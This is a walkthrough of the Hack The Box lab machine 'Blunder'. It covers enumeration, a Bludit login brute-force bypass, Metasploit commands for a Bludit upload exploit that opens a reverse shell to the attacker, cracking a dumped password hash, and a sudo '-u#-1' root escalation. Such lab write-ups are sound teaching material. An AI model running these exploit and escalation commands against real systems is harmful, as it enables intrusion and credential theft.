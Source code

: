 ![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/blunder.png)

## Summary

Blunder is an easy rated linux machine provided by hackthebox where are mainly represented with some Bludit CMS CVEs.
We use an Authentication Bypass through bruteforcing CVE to login on the admin dashboard. Later on we use yet another CVE (Arbitrary File Upload through images)
to grab a shell on the machine. A newer version of Bludit is configured in the machine where we find a hash for a system user which we crack later.
A sudo misconfiguration easily drops root shell.

## Enumeration
As always I start with a nmap scan to grab the initial information :
### nmap

```
root@kali:/home/suljot# nmap -sC -A 10.10.10.191
Starting Nmap 7.91 ( https://nmap.org ) at 2020-10-17 16:28 CEST
Nmap scan report for 10.10.10.191
Host is up (0.070s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   72.10 ms 10.10.14.1
2   72.03 ms 10.10.10.191
```
Port 21 seems closed so it obviously would be useless for now which leaves port 80 the only vector to gain more information.

### Website

![website](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/blunder-web.png)

Represented with a simple blog webpage which doesnt tell much useful information for the box.

Viewing the source of the webpage reveals things that could be useful : 

```html
<!-- Dynamic title tag -->
<title>Blunder | A blunder of interesting facts</title>

<!-- Dynamic description tag -->
<meta name="description" content="HackTheBox">

<!-- Include Favicon -->
<link rel="shortcut icon" href="http://10.10.10.191/bl-themes/blogx/img/favicon.png" type="image/png">

<!-- Include Bootstrap CSS file bootstrap.css -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

<!-- Include CSS Styles from this theme -->
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-themes/blogx/css/style.css?version=3.9.2">

<!-- Load Plugins: Site head -->

<!-- Robots plugin -->
</head>
<body>
```

The webpage seems to be running under **Bludit CMS** and the revealed version seems to be **3.9.2**

Upon googling the found information I found an interesting **CVE** under this version of **Bludit** : [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

The above exploit needs at least the username parameter in order to do bruteforcing and yet we dont have any.

### Directory Fuzzing

I decided to start fuzzing the webpage for any possible leftovers or interesting files

![fuzzing](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/directory-bf.png)

After some time I find 2 interesting leads :
- /admin

![admin](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/bl-admin.png)

- /todo.txt

![todo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/todo.png)

## Initial Foothold

I finally have an username (**fergus**) provided from the todo leftover and the login page. 
This way I can take a look on the exploit now.

### bruteforcing

I firstly created a wordlist using **cewl** based on the blog provided from the port 80 :

```sh
root@kali:~# cewl http://10.10.10.191 -w wordlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:~# ls -la wordlist.txt
-rw-r--r-- 1 root root 2498 Oct 17 16:48 wordlist.txt
```

I then copied the script in the previous blog localy and changed the parameters to my needs :

![exploit](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/exploit.png)

Running the exploit I get some correct credentials after a while :

![bf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/bf.png)

``fergus:RolandDeschain``

Obviously I can use those creds to login on ``/admin`` and access the dashboard :

![dashboard](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/dashboard.png)

While searching for a possible vulnerability previously I also found [CVE-2019-16113](http://cve.circl.lu/cve/CVE-2019-16113),

Another vulnerability (remote command execution) for the **Bludit 3.9.2** version.

I'm going to use metasploit to do that to speed things up, but I recommed doing this one exploit manually as it learned me a few new tricks.

```console
msf5 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
```
### www-data shell
After running the exploit we grab a low-privileged shell to the machine :

![www-data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/metasploit.png)

Using the shell I just grabbed from the exploit I started to look for possible interesting paths on the machine.

There seems to be a newer version of Bludit (**3.10**) already installed on the machine but not yet set up on the blog.

Navigating on it I grabbed a very useful hash from **users.php**

```php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

## User Escalation

Hugo, the user which the hash corresponds to, appears to be a system user as well.

Using [https://md5decrypt.net/](https://md5decrypt.net/) I was able to crack the hash : **faca404fd5c0a31cf1897b823c695c85cffeb98d : Password120**

![user](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/user.png)

With a user shell already , I can easily grab the user flag under home folder.

## Upgrading Privileges

I quickly began to do the usual enumeration to find more information on how to grab root access.

### sudo
```sh
hugo@blunder:~$ sudo -l 
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$
```
From the above information seems like **hugo** is  configured to run sudo commands as anyone except root.

This configuration reminds me of an old sudo CVE where we could use something like : ``sudo -u#-1 /bin/bash`` to drop ourselves a root shell.

### root shell
I attempted the same exploit on the machine to see if  I could get any results :

![root-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/root-shell.png)

And with that being the last part of the writeup , We just owned root and can easily grab the root flag!
